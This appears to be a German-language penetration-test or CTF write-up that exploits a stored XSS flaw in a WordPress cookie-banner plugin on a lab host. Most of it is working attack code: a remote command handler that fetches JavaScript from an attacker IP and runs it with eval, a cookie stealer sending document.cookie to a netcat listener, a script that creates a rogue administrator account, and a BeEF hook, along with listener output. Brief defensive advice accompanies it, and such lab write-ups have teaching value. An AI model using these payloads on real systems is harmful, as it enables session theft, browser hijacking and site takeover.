**Bewertung:** Die Analyse der Browser-Entwicklertools bestätigt, dass die Login-Seite geladen wird und das "Easy Cookie Policy"-Plugin aktiv ist und Cookies setzt. Dies ist eine wichtige Voraussetzung, um die XSS-Schwachstelle in diesem Plugin auszunutzen, da der bösartige Payload über die Plugin-Einstellungen injiziert wird und dann im Kontext des Cookie-Hinweises ausgeführt wird. Die Cookies selbst sind hier weniger das Ziel, sondern eher ein Indikator für die Aktivität des Plugins.
**Empfehlung (Pentester):**
1. **Mit `blessed` einloggen:** Verwende die zuvor gefundenen Anmeldeinformationen (`blessed` / `yourmom`), um dich über `http://shemhamphorash.local/sitecore/wp-login.php` in WordPress einzuloggen.
2. **Plugin-Einstellungen finden:** Navigiere nach dem Login zu den Einstellungen des "Easy Cookie Policy"-Plugins.
3. **XSS-Payload injizieren:** Identifiziere das Feld in den Plugin-Einstellungen, das für die XSS-Schwachstelle anfällig ist (typischerweise ein Textfeld, dessen Inhalt ohne ausreichende Sanitisierung im Frontend ausgegeben wird, z.B. der Text des Cookie-Hinweises oder des Akzeptieren-Buttons). Injiziere dort einen Test-Payload (z.B. `alert('XSS')`) und speichere die Einstellungen.
4. **XSS auslösen:** Besuche eine Seite im Frontend, auf der der Cookie-Hinweis angezeigt wird, um zu prüfen, ob der Test-Payload ausgeführt wird.
**Empfehlung (Admin):**
Die primäre Empfehlung bleibt, das verwundbare Plugin `easy-cookies-policy` umgehend zu aktualisieren, zu ersetzen oder zu entfernen. Die hier gezeigten Cookies sind Symptome der Plugin-Aktivität, nicht die Ursache der Schwachstelle.

Das Bild `login_blesed.jpg` dokumentiert den erfolgreichen Login-Vorgang in das WordPress-Backend unter `http://shemhamphorash.local/sitecore/wp-login.php` mit den zuvor durch `wpscan` aufgedeckten Anmeldeinformationen: Benutzer `blessed` und Passwort `yourmom`. Dies gewährt uns nun authentifizierten Zugriff auf die WordPress-Instanz.
Das Bild `login_blesed_wp.jpg` zeigt das WordPress-Dashboard, nachdem der Login als Benutzer `blessed` erfolgreich war. Wir befinden uns nun im administrativen Bereich von WordPress. Der nächste Schritt ist, die Berechtigungen dieses Benutzers zu prüfen und die XSS-Schwachstelle im "Easy Cookie Policy"-Plugin auszunutzen. Es ist zu prüfen, ob "blessed" die notwendigen Rechte hat, Plugin-Einstellungen zu ändern.
Das Bild `easy_cookie_angelegt2.jpg` zeigt die Cookies, die im Browser nach dem Login und möglicherweise Interaktion mit der Webseite gesetzt wurden. Neben den WordPress-Standardcookies (wie `wordpress_logged_in_...`, `wordpress_sec_...`) sind auch die Cookies des `easy-cookies-policy`-Plugins weiterhin sichtbar. Der wichtige Punkt hier ist, dass wir nun authentifiziert sind und versuchen können, die Stored XSS über die Plugin-Einstellungen zu injizieren. Der `wordpress_logged_in_...` Cookie ist der Sitzungscookie, der uns authentifiziert hält.
**Schritt-für-Schritt-Anleitung zur XSS-Ausnutzung (Vorbereitung der JavaScript-Payloads):** Im Folgenden werden verschiedene JavaScript-Payloads vorgestellt, die für die Ausnutzung der XSS-Schwachstelle vorbereitet wurden. Diese Skripte dienen unterschiedlichen Zwecken, von der einfachen Überprüfung der XSS-Ausführbarkeit bis hin zum Versuch, komplexere Aktionen durchzuführen oder Informationen zu sammeln.
Ich habe hier mehrere Scripte gebaut für unterschiedliche zwecke, ihr name dient dem Zweck.
Sie wurden mehrmals angepasst um sich der Situation anzupassen:
-rw-r--r-- 1 root root 8971 27. Mai 16:08 attack_script.js
-rw-r--r-- 1 root root 1808 27. Mai 22:02 check_admin_login.js
-rw-r--r-- 1 root root 3773 27. Mai 23:04 create_admin_script.js
-rw-r--r-- 1 root root 629 27. Mai 16:36 log_trigger_script.js
-rw-r--r-- 1 root root 1330 27. Mai 17:13 nginx_log_probe.js
-rw-r--r-- 1 root root 3417 27. Mai 15:55 xss_handler.js
**Analyse:** Diese Ausgabe zeigt eine Liste von JavaScript-Dateien, die ich auf meinem Angreifer-System vorbereitet habe. Diese Skripte sind dazu gedacht, über die XSS-Schwachstelle in die Webseite des Opfers injiziert zu werden, um verschiedene Aktionen auszuführen. Die Dateinamen geben Hinweise auf ihren jeweiligen Zweck: * `attack_script.js`: Ein generisches Angriffsskript, dessen Inhalt hier nicht gezeigt wird, aber vermutlich komplexere Aktionen durchführen soll (z.B. Reverse Shell Versuch, was später als erfolglos erwähnt wird). * `check_admin_login.js`: Soll überprüfen, ob der Benutzer, in dessen Browser das Skript ausgeführt wird (der "Bot" oder Admin), tatsächlich Admin-Rechte in WordPress hat. * `create_admin_script.js`: Versucht, einen neuen Administrator-Account in WordPress zu erstellen. * `log_trigger_script.js`: Versucht, durch Aufruf einer nicht existierenden Ressource einen Eintrag im Server-Log (Apache) zu erzeugen, der dann möglicherweise ausgelesen werden kann. * `nginx_log_probe.js`: Ähnlich wie `log_trigger_script.js`, aber speziell für Nginx-Logs. * `xss_handler.js`: Ein zentrales Skript, das Befehle von einem Server des Angreifers nachlädt und ausführt und Ergebnisse zurückmeldet. Dies ermöglicht eine interaktive Steuerung. Die Zeitstempel und Dateigrößen deuten darauf hin, dass diese Skripte im Laufe des Pentests entwickelt und angepasst wurden.
**Bewertung:** Die Vorbereitung einer Reihe von spezialisierten JavaScript-Payloads ist eine gute Strategie für die XSS-Ausnutzung. Es ermöglicht Flexibilität und das Testen verschiedener Angriffsvektoren. Das `xss_handler.js` Skript ist besonders interessant, da es eine Art "Mini-C2" (Command and Control) über XSS etabliert, indem es Befehle von einem externen Server lädt. Dies ist fortschrittlicher als statische Payloads.
**Empfehlung (Pentester):**
Diese Skripte sollten nun über die XSS-Schwachstelle im "Easy Cookie Policy"-Plugin injiziert werden. Beginne mit einem einfachen Test-Payload, um die Ausführung zu bestätigen, und gehe dann zu komplexeren Skripten wie `xss_handler.js` über. Hosten dieser Skripte auf einem eigenen Webserver (z.B. Python HTTP-Server) ist notwendig, damit sie vom Opfer-Browser geladen werden können (z.B. via `scpt src='http://DEINE_IP:8000/xss_handler.js'`).
**Empfehlung (Admin):**
Dies unterstreicht die Gefahr von XSS-Schwachstellen. Angreifer können beliebigen JavaScript-Code im Kontext der Webseite ausführen, was weitreichende Konsequenzen haben kann. Die primäre Verteidigung ist das Schließen der XSS-Lücke selbst. Zusätzlich können Content Security Policy (CSP) Header helfen, die Auswirkungen von XSS zu begrenzen, indem sie z.B. das Laden von Skripten von nicht vertrauenswürdigen Quellen verhindern.
**Detailanalyse der JavaScript-Payloads:**
**`xss_handler.js`**: Dieses Skript ist darauf ausgelegt, Befehle von einem externen Server (`attacker_server`) zu laden, sie im Kontext der XSS-Opferseite auszuführen und die Ergebnisse an einen anderen Server (`report_server`) zu senden. Es ist ein interaktiver Handler.
// xss_handler_direct_exec.js
var attacker_server = 'http://192.168.2.199:8000';
var report_server = 'http://192.168.2.199:9001';
var command_file = 'commands2.txt';
function reportToServer(paramName, data) {
var i = new Image();
var jsonPayload;
try {
if (data && typeof data.nodeType === 'number' && typeof data.nodeName === 'string') {
if (data.outerHTML) {
jsonPayload = JSON.stringify({type: 'DOMElement', content: data.outerHTML.substring(0, 1000) + (data.outerHTML.length > 1000 ? '...' : '')});
} else {
jsonPayload = JSON.stringify({type: 'DOMElement', nodeName: data.nodeName, nodeValue: data.nodeValue});
}
} else if (typeof data === 'object' && data !== null) {
var cache = [];
jsonPayload = JSON.stringify(data, function(key, value) {
if (typeof value === 'object' && value !== null) {
if (cache.indexOf(value) !== -1) { return '[Circular Reference]'; }
cache.push(value);
}
return value;
}, 2);
cache = null;
} else if (typeof data === 'undefined') {
jsonPayload = JSON.stringify('[undefined]');
} else {
jsonPayload = JSON.stringify(data); // Stringify des (möglicherweise schon) Strings
}
} catch (e) {
jsonPayload = JSON.stringify('[Serialization Error]: ' + e.toString());
}
i.src = report_server + '/?' + paramName + '=' + encodeURIComponent(jsonPayload.substring(0, 1800));
}
// Sofort versuchen, Befehle zu laden und auszuführen
function executeCommandFromFile() {
fetch(attacker_server + '/' + command_file + '?r=' + Math.random())
.then(response => {
if (!response.ok) {
throw new Error('Network response for ' + command_file + ' was not ok: ' + response.status + ' ' + response.statusText);
}
return response.text();
})
.then(commandText => {
var command = commandText.trim();
if (command !== '') {
reportToServer('direct_cmd_received', {command_text: command});
try {
var result = eval(command);
reportToServer('direct_cmd_result', {command: command, result: result, status: 'success'});
} catch (e) {
reportToServer('direct_cmd_error', {command: command, error_message: e.message, error_stack: e.stack, status: 'eval_error'});
}
} else {
reportToServer('direct_cmd_status', 'commands_file_empty_on_load');
}
})
.catch(error => {
reportToServer('direct_fetch_cmd_error', {error_message: error.message, error_stack: error.stack});
});
}
// Starte den Prozess
try {
var initialData = {
status: 'xss_handler_direct_exec_loaded', // Neuer Status
page_title: document.title,
location: window.location.href,
user_agent: navigator.userAgent,
cookies_available: document.cookie
};
reportToServer('handler_status', initialData);
executeCommandFromFile(); // Führe es direkt aus, kein Loop mehr
} catch (e) {
var i = new Image();
i.src = report_server + '/?initial_error=' + encodeURIComponent(e.toString().substring(0,100));
}
**Analyse `xss_handler.js`:** * `attacker_server` (`http://192.168.2.199:8000`): Die Adresse meines Python-HTTP-Servers, der die `command_file` bereitstellt. * `report_server` (`http://192.168.2.199:9001`): Die Adresse meines Netcat-Listeners, der die Ergebnisse und Statusmeldungen empfängt. * `command_file` (`commands2.txt`): Der Name der Datei auf dem `attacker_server`, die die auszuführenden JavaScript-Befehle enthält. * `reportToServer(paramName, data)`: Diese Funktion sendet Daten an den `report_server`. Sie serialisiert die Daten als JSON und sendet sie als GET-Parameter einer Bildanfrage (`Image().src`). Dies ist eine gängige Methode zur Datenexfiltration bei XSS, da Bildanfragen oft weniger durch Same-Origin Policy eingeschränkt sind. Die Daten werden gekürzt, um die URL-Länge nicht zu sprengen. Es gibt eine Fehlerbehandlung für die Serialisierung und für zirkuläre Referenzen in Objekten. * `executeCommandFromFile()`: Diese Funktion holt den Inhalt der `command_file` vom `attacker_server` mittels `fetch`. Der Cache wird durch einen zufälligen Parameter (`?r=' + Math.random()`) umgangen. Der empfangene Text wird als JavaScript-Code mit `eval()` ausgeführt. Sowohl der empfangene Befehl als auch das Ergebnis (oder ein Fehler) werden an den `report_server` gemeldet. * Der Hauptteil des Skripts sendet zunächst einige initiale Informationen (Seitentitel, URL, User-Agent, Cookies) an den `report_server` und ruft dann `executeCommandFromFile()` auf. Dieses Skript ist so konzipiert, dass es einmalig beim Laden Befehle abruft und ausführt. Die Benennung `commands2.txt` und der Status `xss_handler_direct_exec_loaded` deuten auf eine Weiterentwicklung oder eine spezifische Version dieses Handlers hin.
**Bewertung `xss_handler.js`:** Ein gut strukturiertes und mächtiges XSS-Payload. Die Verwendung von `fetch` zum Nachladen von Befehlen und `eval()` zur Ausführung ermöglicht eine flexible Steuerung des Opfer-Browsers. Die Berichtsfunktion über `Image().src` ist eine Standardtechnik. Die Fehlerbehandlung und das Logging sind nützlich für das Debugging und die Erfolgsüberprüfung. Die größte Gefahr von `eval()` ist bekannt, aber im Kontext eines XSS-Angriffs, bei dem man bereits Code ausführt, ist es ein Mittel zum Zweck, um dynamisch nachgeladenen Code auszuführen.
**`log_trigger_script.js`**: Dieses Skript versucht, einen eindeutigen Eintrag im Apache-Serverlog zu erzeugen.
// ~/Hackingtools/shells/log_trigger_script.js
(function() {
var unique_marker = 'CVE_2021_24405_PoC_By_CCat_' + Math.random().toString(36).substring(2, 10);
var img = new Image();
// Ruft eine nicht existierende PHP-Seite im WordPress-Kontext auf, um im Apache-Log zu landen
img.src = '/sitecore/' + unique_marker + '.php';
// Optional: Sende eine Bestätigung an deinen Debug-Listener
var kali_ip = '192.168.2.199';
var debug_listener_port = '9001';
var i2 = new Image();
i2.src = 'http://' + kali_ip + ':' + debug_listener_port + '/?xss_triggered_log_attempt=' + unique_marker;
})();
**Analyse `log_trigger_script.js`:** * Es erzeugt einen `unique_marker` (z.B. `CVE_2021_24405_PoC_By_CCat_abcdefg`). * Es versucht, eine Bildressource (`img.src`) von `/sitecore/` + `unique_marker` + `.php` zu laden. Da diese PHP-Datei nicht existiert, wird dies einen 404-Fehler im Apache-Log des Zielservers (`shemhamphorash.local` auf Port 80) erzeugen. Der Marker hilft, diesen spezifischen Logeintrag später zu identifizieren. * Optional sendet es eine Bestätigung an meinen Listener (`192.168.2.199:9001`), dass der Versuch unternommen wurde. Dies ist eine Technik, um Log-Poisoning oder die Überprüfung von Log-Zugriff zu testen. Wenn man später Zugriff auf die Logs erhält, kann man nach diesem Marker suchen.
**Bewertung `log_trigger_script.js`:** Ein einfaches, aber effektives Skript, um gezielt Logeinträge zu erzeugen. Nützlich, wenn man vermutet, dass Logdateien ausgelesen werden können oder um die Reaktion des Systems auf Anfragen an nicht existierende Dateien zu testen.
**`nginx_log_probe.js`**: Ähnlich wie das vorherige Skript, aber für Nginx-Logs, und zielt auf Port 8080.
// ~/Hackingtools/shells/nginx_log_probe.js
(function() {
var kali_ip = '192.168.2.199';
var debug_listener_port = '9001';
var unique_marker_nginx = 'NGINX_PROBE_By_CCat_' + Math.random().toString(36).substring(2, 12);
// Wir wissen, dass Nginx auf Port 8080 auf Hostnamen 'shemhamphorash.local' und 'calaV'
// (und wahrscheinlich die IP 192.168.2.202) reagiert, auch wenn bisher mit leerem Inhalt.
// Wir verwenden 'shemhamphorash.local' als erstes, da es für WordPress auf Port 80 funktioniert.
var target_host_for_nginx = 'shemhamphorash.local';
// Alternativ könntest du hier auch 'calaV' oder direkt '192.168.2.202' versuchen,
// wenn 'shemhamphorash.local' nicht den gewünschten Effekt im Nginx-Log hat.
var img = new Image();
// Rufe eine nicht existierende Ressource auf dem Nginx-Port mit dem speziellen Host auf
// Wir verwenden .txt am Ende, um es von PHP-Requests im Apache-Log zu unterscheiden.
img.src = 'http://' + target_host_for_nginx + ':8080/' + unique_marker_nginx + '.txt';
// Bestätigung an unseren Debug-Listener, dass der Versuch gestartet wurde
var i2 = new Image();
i2.src = 'http://' + kali_ip + ':' + debug_listener_port + '/?nginx_log_probe_sent=' + unique_marker_nginx + '&target_nginx_host=' + target_host_for_nginx;
})();
**Analyse `nginx_log_probe.js`:** * Funktioniert analog zu `log_trigger_script.js`, aber mit einem anderen Marker (`NGINX_PROBE_By_CCat_...`). * Zielt explizit auf den Nginx-Server: `img.src = 'http://' + target_host_for_nginx + ':8080/' + unique_marker_nginx + '.txt';`. * Es verwendet `.txt` als Dateiendung, um die Anfragen im Nginx-Log von den PHP-Anfragen im Apache-Log zu unterscheiden. * Der `target_host_for_nginx` ist hier `shemhamphorash.local`, da wir wissen, dass der Nginx-Server auf diesen Host-Header reagiert.
**Bewertung `nginx_log_probe.js`:** Ebenfalls ein nützliches Skript zur Erzeugung spezifischer Logeinträge, diesmal für den Nginx-Server. Die Unterscheidung der Dateiendung und des Markers ist gut für eine klare Trennung bei der späteren Log-Analyse.
**`check_admin_login.js`**: Dieses Skript soll überprüfen, ob der Benutzer, in dessen Browserkontext es läuft, als Administrator in WordPress angemeldet ist.
// ~/Hackingtools/shells/check_admin_login.js
(async function() {
var kali_ip = '192.168.2.199';
var debug_listener_port = '9001';
function report(paramName, data) {
var i = new Image();
var jsonData = "[Error Stringifying]";
try {
jsonData = JSON.stringify(data);
} catch (e) {
// ignore serialization errors for now, or send a specific error
}
i.src = 'http://' + kali_ip + ':' + debug_listener_port + '/?' + paramName + '=' + encodeURIComponent(jsonData.substring(0,1000));
}
report('check_login_status', 'check_admin_login.js loaded by bot');
try {
// Wichtig: redirect: 'manual' um den Redirect selbst zu sehen, nicht ihm zu folgen
const response = await fetch('/sitecore/wp-admin/index.php', {credentials: 'include', redirect: 'manual'});
report('check_login_result', {
url_requested: '/sitecore/wp-admin/index.php', // Die URL, die wir angefragt haben
response_url: response.url, // Die URL, die der Browser nach (blockierten) Redirects sieht
status: response.status, // HTTP Status Code
type: response.type, // 'basic', 'cors', 'error', 'opaque', 'opaqueredirect'
is_admin_likely: (response.status === 200 && response.url.includes('/wp-admin/index.php') && !response.url.includes('wp-login.php')),
redirected_to_login: (response.type === 'opaqueredirect' || (response.url && response.url.includes('wp-login.php')) || response.status === 0
|| response.status === 302)
});
} catch (e) {
report('check_login_fatal_error', {message: e.message, stack: e.stack ? e.stack.substring(0,300) : "No stack"});
}
})();
**Analyse `check_admin_login.js`:** * Es verwendet `fetch` mit `{credentials: 'include'}` um sicherzustellen, dass Cookies mitgesendet werden (wichtig für authentifizierte Anfragen). * Die Option `redirect: 'manual'` ist entscheidend: Sie weist `fetch` an, Redirects (z.B. von `/wp-admin/` zu `wp-login.php`, wenn nicht eingeloggt) nicht automatisch zu folgen, sondern Informationen über den Redirect zurückzugeben. * Es fragt `/sitecore/wp-admin/index.php` an. * Das Ergebnis (`response.status`, `response.url`, `response.type`) wird analysiert, um festzustellen, ob der Benutzer wahrscheinlich als Admin eingeloggt ist: * `is_admin_likely`: True, wenn Status 200 ist, die URL `/wp-admin/index.php` enthält und *nicht* `wp-login.php` enthält. * `redirected_to_login`: True, wenn ein Redirect zur Login-Seite erfolgt ist (erkennbar an `response.type === 'opaqueredirect'`, der URL oder Status 302/0). * Das Ergebnis wird an den Listener auf Port 9001 gemeldet.
**Bewertung `check_admin_login.js`:** Ein sehr cleveres Skript, um den Login-Status eines Benutzers (insbesondere Admin-Status) zu überprüfen, ohne tatsächlich Seiteninhalte parsen zu müssen. Die Verwendung von `fetch` mit `credentials: 'include'` und `redirect: 'manual'` ist der Schlüssel. Dies ist nützlich, um festzustellen, ob der "Bot" (simulierter Admin-Seitenbesucher), der die XSS auslöst, tatsächlich mit Admin-Rechten unterwegs ist.
**`create_admin_script.js`**: Dieses Skript versucht, einen neuen WordPress-Administratoraccount mit dem Namen `xssmasterccat` anzulegen.
(async function() {
var kali_ip = '192.168.2.199';
var debug_listener_port = '9001';
var new_admin_user = 'xssmasterccat';
var new_admin_pass = 'P@$$wOrdCCat987!';
function reportToListener(eventName, eventData) {
var i = new Image();
var payload = { event: eventName, data: eventData, timestamp: Date.now() };
try {
i.src = 'http://' + kali_ip + ':' + debug_listener_port + '/?' + encodeURIComponent(JSON.stringify(payload).substring(0, 1800));
} catch (e) {
i.src = 'http://' + kali_ip + ':' + debug_listener_port + '/?error_reporting_data&message=' + encodeURIComponent(e.message);
}
}
reportToListener('script_loaded', { user_agent: navigator.userAgent, location: window.location.href });
try {
reportToListener('fetch_nonce_start', { url: '/sitecore/wp-admin/user-new.php' });
const responseUserNewPage = await fetch('/sitecore/wp-admin/user-new.php', { credentials: 'include' });
reportToListener('fetch_nonce_response', { status: responseUserNewPage.status, ok: responseUserNewPage.ok, url: responseUserNewPage.url });
if (!responseUserNewPage.ok || (responseUserNewPage.url && responseUserNewPage.url.includes('wp-login.php'))) {
const responseText = await responseUserNewPage.text();
reportToListener('fetch_nonce_failed_or_redirected', { status: responseUserNewPage.status, redirected_to_login: true, html_sample:
responseText.substring(0, 200) });
return;
}
const userNewPageHtml = await responseUserNewPage.text();
reportToListener('fetch_nonce_got_html', { length: userNewPageHtml.length });
const nonceMatch = userNewPageHtml.match(/name="_wpnonce_create-user"\s*value="([^"]+)"/);
if (!nonceMatch || !nonceMatch[1]) {
reportToListener('nonce_extraction_failed', { html_sample: userNewPageHtml.substring(0, 500) });
return;
}
const nonce = nonceMatch[1];
reportToListener('nonce_extracted', { nonce: nonce });
reportToListener('create_user_start', { username: new_admin_user });
const createUserResponse = await fetch('/sitecore/wp-admin/user-new.php', {
method: 'POST',
credentials: 'include',
headers: { 'Content-Type': 'application/x-www-form-urlencoded' },
body: new URLSearchParams({
'action': 'createuser',
'_wpnonce_create-user': nonce,
'user_login': new_admin_user,
'email': new_admin_user + '@shemhamphorash.local',
'first_name': 'XSS',
'last_name': 'MasterCCat',
'url': '',
'pass1': new_admin_pass,
'pass2': new_admin_pass,
'role': 'administrator',
'createuser': 'Add New User'
}).toString()
});
reportToListener('create_user_response', { status: createUserResponse.status, ok: createUserResponse.ok, url: createUserResponse.url,
redirected: createUserResponse.redirected });
if (createUserResponse.ok || createUserResponse.redirected || createUserResponse.status === 302) {
reportToListener('create_user_success', { username: new_admin_user, password: new_admin_pass });
} else {
const responseText = await createUserResponse.text();
reportToListener('create_user_failed', { status: createUserResponse.status, html_sample: responseText.substring(0, 500) });
}
} catch (e) {
reportToListener('script_fatal_error', { message: e.message, stack_sample: e.stack ? e.stack.substring(0, 300) : "No stack" });
}
})();
**Analyse `create_admin_script.js`:** Dieses Skript ist ein ambitionierter Versuch, automatisiert einen neuen Admin-Benutzer zu erstellen. 1. **Nonce-Extraktion:** Es ruft zuerst die Seite `/sitecore/wp-admin/user-new.php` auf (die Seite zum Erstellen neuer Benutzer). Aus dem HTML-Inhalt dieser Seite versucht es, einen WordPress-Nonce (eine Art CSRF-Token) mit dem Namen `_wpnonce_create-user` zu extrahieren. Dies ist notwendig, da WordPress Nonces verwendet, um sicherzustellen, dass Aktionen von legitimen Benutzersitzungen stammen. 2. **Benutzererstellung per POST:** Wenn die Nonce erfolgreich extrahiert wurde, sendet es eine POST-Anfrage an dieselbe URL (`/sitecore/wp-admin/user-new.php`) mit allen notwendigen Parametern, um einen neuen Benutzer zu erstellen: * `action: 'createuser'` * Die extrahierte Nonce (`_wpnonce_create-user`) * Benutzername (`new_admin_user = 'xssmasterccat'`) * E-Mail, Passwort (`new_admin_pass = 'P@$$wOrdCCat987!'`), Rolle (`administrator`) etc. 3. **Statusmeldung:** Erfolg oder Misserfolg werden an den Listener gemeldet. Dieser Ansatz funktioniert nur, wenn der Benutzer, in dessen Browserkontext das Skript läuft (der XSS-Bot), die Berechtigung hat, neue Benutzer mit Administratorrechten anzulegen.
**Bewertung `create_admin_script.js`:** Ein sehr ausgeklügeltes Skript. Die automatische Nonce-Extraktion und der anschließende POST-Request zur Benutzererstellung sind fortgeschrittene XSS-Techniken. Der Erfolg hängt stark von den Berechtigungen des Opfers ab. Wenn der Bot als Admin angemeldet ist, könnte dies funktionieren. Spätere Log-Einträge im Bericht deuten jedoch darauf hin, dass dieser Versuch fehlschlug ("fetch_nonce_failed_or_redirected"), was bedeutet, dass der Bot wahrscheinlich nicht die erforderlichen Rechte hatte oder nicht korrekt eingeloggt war, um auf `user-new.php` zuzugreifen.
**POC Schritt 1: XSS-Payload-Injektion mit Cookie-Stealer** Als ersten Test injizieren wir einen einfachen Cookie-Stealer-Payload in die Einstellungen des "Easy Cookie Policy"-Plugins.
{"status":"OK","text":"Configuration data updated","url":"http:\/\/shemhamphorash.local\/sitecore","cookie":"easy_cookies_policy_warning"}
**Analyse:** Dieser `curl`-Befehl nutzt die identifizierte Schwachstelle CVE-2021-24405 im Plugin "Easy Cookie Policy". Er sendet eine POST-Anfrage an `admin-ajax.php`, um die Einstellungen des Plugins zu speichern. * `-H 'Cookie: ...'`: Hier wird der Login-Cookie des Benutzers `blessed` mitgesendet. Der Cookie-Wert (`wordpress_logged_in_...=blessed%7C...`) ist der Authentifizierungstoken, der WordPress signalisiert, dass die Anfrage im Kontext des eingeloggten Benutzers `blessed` erfolgt. * `action=easy_cookies_policy_save_settings`: Gibt die WordPress-Ajax-Aktion an, die aufgerufen werden soll (Speichern der Plugin-Einstellungen). * `maintext=< scpt var i=new Image();i.src='http://192.168.2.199:9001/?c='+encodeURIComponent(document.cookie);< scpt >`: Dies ist der entscheidende Teil. In das Feld `maintext` (wahrscheinlich der Text für den Cookie-Banner) wird ein JavaScript-Payload injiziert. Dieses Skript erstellt ein neues Bildobjekt und setzt dessen `src`-Attribut auf die URL meines Netcat-Listeners (`http://192.168.2.199:9001/`) mit den Cookies des Opfers (`document.cookie`) als URL-Parameter `c`. * Die anderen `--data-urlencode`-Parameter setzen legitime Plugin-Einstellungen (Hintergrundfarbe, Button-Text etc.), um die Anfrage gültig erscheinen zu lassen. Der `button_text` wurde zu "Accept XSS" geändert, was ein Hinweis auf die Manipulation ist. Die Antwort vom Server `{"status":"OK","text":"Configuration data updated",...}` bestätigt, dass die Einstellungen erfolgreich gespeichert wurden, einschließlich des bösartigen JavaScript-Payloads im `maintext`.
**Bewertung:** **Der XSS-Payload wurde erfolgreich injiziert und gespeichert!** Dies ist ein kritischer Schritt. Jedes Mal, wenn nun der Cookie-Hinweis des "Easy Cookie Policy"-Plugins auf der Webseite angezeigt wird, wird der injizierte JavaScript-Code ausgeführt. Dieser Code sendet die Cookies des Benutzers, der die Seite betrachtet, an meinen Listener. Wenn ein Administrator die Seite besucht, könnten seine Admin-Cookies gestohlen werden.
**Empfehlung (Pentester):**
1. **Listener überwachen:** Behalte den Netcat-Listener auf `192.168.2.199:9001` im Auge.
2. **Seite besuchen/Bot triggern:** Sorge dafür, dass die Webseite (Frontend) von einem anderen Benutzer oder dem simulierten Admin-Bot besucht wird, damit der XSS-Payload ausgelöst wird.
3. **Cookies analysieren:** Wenn Cookies beim Listener eintreffen, analysiere sie. Suche nach Sitzungscookies von Administratoren (z.B. `wordpress_logged_in_...`).
4. **Session Hijacking:** Versuche, die gestohlenen Admin-Sitzungscookies in deinem eigenen Browser zu verwenden, um die Admin-Sitzung zu übernehmen.
**Empfehlung (Admin):**
Dies demonstriert die unmittelbare Gefahr der Stored XSS. Die Schwachstelle im Plugin muss *sofort* behoben werden (Update, Deaktivierung, Entfernung). Überprüfe Server-Logs auf verdächtige POST-Anfragen an `admin-ajax.php` mit ungewöhnlichen Daten in den Plugin-Einstellungen.
listening on [any] 9001 ... connect to [192.168.2.199] from (UNKNOWN) [192.168.2.203] 47498 GET /?c=easy_cookies_policy_check%3D37465722e7068703 HTTP/1.1 Host: 192.168.2.199:9001 Connection: keep-alive User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.60 Safari/537.36 Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8 Referer: http://shemhamphorash.local/ Accept-Encoding: gzip, deflate Accept-Language: en-US,en;q=0.9

**Analyse:** Der Netcat-Listener auf Port 9001 empfängt eine GET-Anfrage. * Die Anfrage stammt von der IP `192.168.2.203`. Dies ist die IP des "Admin-Bots" oder eines anderen simulierten Opfers, das die Webseite besucht hat, nachdem der XSS-Payload injiziert wurde. * Der Pfad der Anfrage ist `/?c=easy_cookies_policy_check%3D37465722e7068703`. Der URL-Parameter `c` enthält die Cookies des Opfers, URL-kodiert. Hier wurde `easy_cookies_policy_check=37465722e7068703` exfiltriert. * Der User-Agent (`Mozilla/5.0 ... Chrome/100.0...`) und Referer (`http://shemhamphorash.local/`) geben Kontext zur Opfersitzung. Das Bild `easy_cookie_angelegt3.jpg` zeigt eine ähnliche Situation, in der Cookies empfangen werden. Die Aussage im Bildkommentar "hier sieht man wie durch httponly der cookie steahling angriff unterbunden wird, aber dennoch ein admin cookie hinterlasen wurde" ist hier leicht irreführend oder interpretiert die Situation. Der Payload `document.cookie` kann nur Cookies auslesen, die *nicht* als `HttpOnly` markiert sind. Wenn wichtige Sitzungscookies (wie `wordpress_logged_in_...`) als `HttpOnly` gesetzt sind, können sie nicht per JavaScript (und somit nicht durch diesen einfachen XSS-Payload) ausgelesen werden. Der Listener hat hier anscheinend nur den nicht-HttpOnly-Cookie `easy_cookies_policy_check` empfangen.
**Bewertung:** Der XSS-Payload wurde erfolgreich vom Opfer-Browser (IP `192.168.2.203`) ausgeführt, und die (nicht-HttpOnly) Cookies wurden an meinen Listener gesendet. Dies bestätigt die Ausführbarkeit der Stored XSS. Die Tatsache, dass anscheinend nur der `easy_cookies_policy_check`-Cookie und nicht der `wordpress_logged_in_...`-Cookie empfangen wurde, deutet stark darauf hin, dass der wichtige WordPress-Sitzungscookie als `HttpOnly` konfiguriert ist. Dies ist eine wichtige Sicherheitsmaßnahme, die Session Hijacking durch XSS erschwert. Der Angriff war also teilweise erfolgreich (XSS-Ausführung bestätigt, nicht-kritische Cookies exfiltriert), aber das Hauptziel (Admin-Sitzungscookie stehlen) wurde durch `HttpOnly` wahrscheinlich vereitelt.
**Empfehlung (Pentester):**
1. **HttpOnly-Cookies bestätigen:** Überprüfe in den Entwicklertools deines Browsers (während du als `blessed` eingeloggt bist), ob der `wordpress_logged_in_...`-Cookie tatsächlich das `HttpOnly`-Flag gesetzt hat.
2. **Alternative XSS-Payloads:** Da der direkte Cookie-Diebstahl für Sitzungscookies durch `HttpOnly` erschwert wird, sind andere XSS-Techniken erforderlich:
* **BeEF Hook injizieren:** Injiziere einen BeEF-Hook (`< scpt src='http://DEINE_BEEF_IP:3000/hook.js'>< scpt >`). BeEF (Browser Exploitation Framework) bietet viele Module, um Aktionen im Browser des Opfers auszuführen, auch wenn Cookies `HttpOnly` sind (z.B. Anfragen im Namen des Opfers senden, Tastatureingaben abfangen, Screenshots erstellen etc.).
* **CSRF-ähnliche Aktionen:** Nutze die XSS, um im Namen des Opfers (z.B. des Admins) Aktionen im WordPress-Backend auszuführen (z.B. neuen Admin-Benutzer anlegen, Plugin-Code ändern), indem du per JavaScript Formulare absendest oder AJAX-Anfragen tätigst. Dies erfordert Kenntnis der WordPress-internen Abläufe und Nonces.
**Empfehlung (Admin):**
Die `HttpOnly`-Einstellung für Sitzungscookies ist eine sehr gute und wichtige Sicherheitsmaßnahme und hat hier wahrscheinlich den Diebstahl des Admin-Sitzungscookies verhindert.
* **HttpOnly beibehalten/prüfen:** Stelle sicher, dass alle sensiblen Cookies (insbesondere Sitzungscookies) immer mit dem `HttpOnly`-Flag versehen sind.
* **XSS-Schwachstelle schließen:** Die zugrundeliegende XSS-Schwachstelle im Plugin muss trotzdem dringend behoben werden, da `HttpOnly` nicht vor allen XSS-Angriffsszenarien schützt (siehe BeEF, CSRF).
